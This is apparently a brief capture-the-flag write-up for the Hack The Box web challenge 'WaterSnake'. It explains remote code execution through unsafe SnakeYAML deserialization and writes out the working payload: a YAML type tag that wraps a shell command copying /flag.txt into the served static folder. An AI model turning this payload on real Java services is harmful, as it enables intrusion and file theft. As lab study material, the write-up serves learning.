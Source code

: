 Challenge: WaterSnake (HTB)<br>
Category: Web <br>
Difficulty: easy <br>
Vulnerability: Remote Code Execution via
unsafe YAML deserialization (SnakeYAML.load()) 
<br>
<h1>Description</h1> The /update endpoint parses attacker-controlled YAML with SnakeYAML.load(), which can instantiate
arbitrary Java objects. By using the !!com.lean.watersnake.GetWaterLevel tag you execute shell commands during
deserialization. <ul>
    <li>POST multipart/form-data to http://{HOST}/update with the config field set to
        !!com.lean.watersnake.GetWaterLevel ["cp /flag.txt /app/build/resources/main/static/flag.txt"].</li>
    <li>Once deserialized, the server runs the cp command and places the flag in /flag.txt.</li>
    <li>GET http://{HOST}/flag.txt to retrieve the flag.</li>
</ul>
